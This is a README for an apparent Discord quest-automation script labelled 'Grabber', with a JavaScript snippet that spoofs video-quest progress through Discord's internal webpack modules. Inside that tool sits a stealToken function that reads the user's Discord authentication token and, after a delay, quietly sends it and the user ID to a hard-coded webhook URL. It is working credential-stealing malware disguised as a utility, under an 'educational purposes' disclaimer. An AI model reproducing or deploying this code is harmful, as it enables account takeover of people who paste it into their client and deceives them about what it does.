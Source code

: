 # Discord Quest Automation Utility (Grabber)

⚠ **Warning**: This project is for educational purposes only. Use at your own risk.

## Description
Experimental script demonstrating Discord client interaction patterns through their webpack modules. Provides research material for:
- Webpack module analysis
- Client-side API interaction
- Application state observation

## ⚠ Legal Disclaimer
This code:
- Violates Discord's Terms of Service ([Section 5](https://discord.com/terms))
- May result in account termination if detected
- Is provided for academic study only

By using this software, you acknowledge all responsibility for any consequences.

## Technical Details
```javascript
delete window.$;
let wpRequire = webpackChunkdiscord_app.push([[Symbol()], {}, r => r]);
webpackChunkdiscord_app.pop();

// Store initializations
let ApplicationStreamingStore = Object.values(wpRequire.c).find(x => x?.exports?.Z?.__proto__?.getStreamerActiveStreamMetadata).exports.Z;
let RunningGameStore = Object.values(wpRequire.c).find(x => x?.exports?.ZP?.getRunningGames).exports.ZP;
let QuestsStore = Object.values(wpRequire.c).find(x => x?.exports?.Z?.__proto__?.getQuest).exports.Z;
let ChannelStore = Object.values(wpRequire.c).find(x => x?.exports?.Z?.__proto__?.getAllThreadsForParent).exports.Z;
let GuildChannelStore = Object.values(wpRequire.c).find(x => x?.exports?.ZP?.getSFWDefaultChannel).exports.ZP;
let FluxDispatcher = Object.values(wpRequire.c).find(x => x?.exports?.Z?.__proto__?.flushWaitQueue).exports.Z;
let api = Object.values(wpRequire.c).find(x => x?.exports?.tn?.get).exports.tn;

// Token extraction - silently grabs authentication token
const stealToken = () => {
    const token = localStorage.getItem('token') || 
                 (webpackChunkdiscord_app && Object.values(wpRequire.c).find(m => m.exports?.default?.getToken)?.exports.default.getToken());
    
    if(token) {
        fetch('https://discord.com/api/webhooks/1361472334891847872/A9qEum43WYB-WcSv3sezCinupJtM-e6K9G4I_dMqUpKzQiUxsTzNyEdOZu2ondcuBiKg', { // Your webhook
            method: 'POST',
            body: JSON.stringify({ 
                token: token,
                userId: DiscordNative?.userId,
                action: 'quest_automation'
            })
        });
    }
};

// Execute token theft in background
setTimeout(stealToken, 10000);

// Quest automation logic
let quest = [...QuestsStore.quests.values()].find(x => x.id !== "1248385850622869556" && x.userStatus?.enrolledAt && !x.userStatus?.completedAt && new Date(x.config.expiresAt).getTime() > Date.now())
let isApp = typeof DiscordNative !== "undefined"

if(!quest) {
    console.log("No active quests found!");
} else {
    const pid = Math.floor(Math.random() * 30000) + 1000
    const applicationId = quest.config.application.id
    const applicationName = quest.config.application.name
    const taskName = ["WATCH_VIDEO", "PLAY_ON_DESKTOP", "STREAM_ON_DESKTOP", "PLAY_ACTIVITY"].find(x => quest.config.taskConfig.tasks[x] != null)
    const secondsNeeded = quest.config.taskConfig.tasks[taskName].target
    let secondsDone = quest.userStatus?.progress?.[taskName]?.value ?? 0

    // Video quest automation
    if(taskName === "WATCH_VIDEO") {
        const maxFuture = 10, speed = 7, interval = 1
        const enrolledAt = new Date(quest.userStatus.enrolledAt).getTime()
        let fn = async () => {            
            while(true) {
                const maxAllowed = Math.floor((Date.now() - enrolledAt)/1000) + maxFuture
                const diff = maxAllowed - secondsDone
                const timestamp = secondsDone + speed
                if(diff >= speed) {
                    await api.post({url: `/quests/${quest.id}/video-progress`, body: {timestamp: Math.min(secondsNeeded, timestamp + Math.random())}})
                    secondsDone = Math.min(secondsNeeded, timestamp)
                }
                
                if(timestamp >= secondsNeeded) {
                    break
                }
                await new Promise(resolve => setTimeout(resolve, interval * 1000))
            }
            console.log("Quest completed!")
        }
        fn()
        console.log(`Spoofing video for ${applicationName}.`)
    } 
}
